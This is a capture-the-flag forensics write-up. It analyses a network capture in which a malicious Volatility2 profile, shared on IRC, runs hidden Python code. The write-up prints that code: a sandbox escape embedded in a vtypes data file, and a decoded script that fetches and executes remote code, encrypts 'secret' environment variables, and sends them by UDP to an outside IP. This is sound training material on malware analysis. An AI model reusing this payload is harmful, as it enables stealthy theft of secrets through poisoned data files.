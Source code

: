 # Mack'os

[< Go back](../../README.md)

## Description

R : La forensique mémoire avec Volatility2 est ma grande passion, et ce depuis sa sortie en août 2006 ! Récemment, j'ai même participé à un concours d'analyse mémoire sur un chat IRC assez rétro. Même si j'ai eu quelques difficultés à trouver le bon profil à utiliser, un utilisateur nommé "jonas_kahnwald44" a pu m'en fournir un fonctionnel. Maintenant que j'en parle, j'ai remarqué un message inattendu lors de l'exécution de Volatility2 avec ce profil. Pourriez-vous jeter un oeil à cette capture réseau réalisée sur mon serveur d'analyse ?

EN : Memory forensics with Volatility2 has been my great passion since its release in August 2006! Recently, I even participated in a memory analysis contest on a rather retro IRC chat. Although I had some difficulties finding the right profile to use, a user named "jonas_kahnwald44" was able to provide me with a functional one. Now that I mention it, I noticed an unexpected message while running Volatility2 with this profile. Could you take a look at this network capture made on my analysis server?

Author: Abyss Watcher

all files in [resources/](./resources) were provided.

## Challenge

Looking at the network logs from [Mackos.pcap](resources/Mackos.pcap) we see volatility logs in `tcp.stream eq 0` at the end we see some sort of IRC chat logs

```
analyst@forensic_server:~$ cp file_server/good_profile.zip volatility/volatility/plugins/overlays/mac/

analyst@forensic_server:~$ python2 volatility/vol.py -f evidences/mac_dump.raw --profile Macgood_profilex64 mac_version

<c_dump.raw --profile Macgood_profilex64 mac_version
Volatility Foundation Volatility Framework 2.6.1
hello fellow analyst ! just checking a few things do not mind :)
Darwin Kernel Version 13.2.0: Thu Apr 17 23:03:13 PDT 2014; root:xnu-2422.100.13~1/RELEASE_X86_64
analyst@forensic_server:~$
```

The other person executed a python2 script, we can download [good_profile.zip](good_profile.zip) to view what happened, unzipping it and looking at [dwarf.txt.conv.vtypes](dwarf.txt.conv.vtypes) we see:

```
'custom_element': [0x2, [[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('echo "hello fellow analyst ! just checking a few things do not mind :)" && python2 -c \'import base64; exec(base64.b64decode("IyEvdXN...Q5NSkpCg=="))\'')]],
```

We can decode this huge base64 into another python2 program:

```py

# _=((()>[])+(()>[]));
# __=(((_<<_)<<_)*_);
# ___=('c%'[::  ... very long ...  )>[]))))))

# Deciphered:

_=2
__=64
___="https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py"

m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)
k = '%d' % int(time.time())
enc = m.encrypt(
  str(
    [{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]
  ),
  k
)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(enc, ('83.84.179.243', 16495))

```

This program steals the users "secret" environment variables trough an websocket, they get encrypted trough the rc4 algorithm (from the gist) and the secret key which is the current timestamp.

Inside wireshark we find the encrypted text that was exfiltrated:

```
0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7
```

We can start by downloading the gist ourselves and trying to find the timestamp used for the key, to do that we can enamble UTC timestamps in wireshark and grab a large range of times, we can quickly bruteforce a batch.

```py
key = 1708172370
    while True:
        result = decrypt(ciphertext, str(key))
        # if key > 1708173370:
        #     break
        if 'secret' in result:
            print(result)
            break
        key += 1
# [{'secret_technique': '  MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}'}]
```
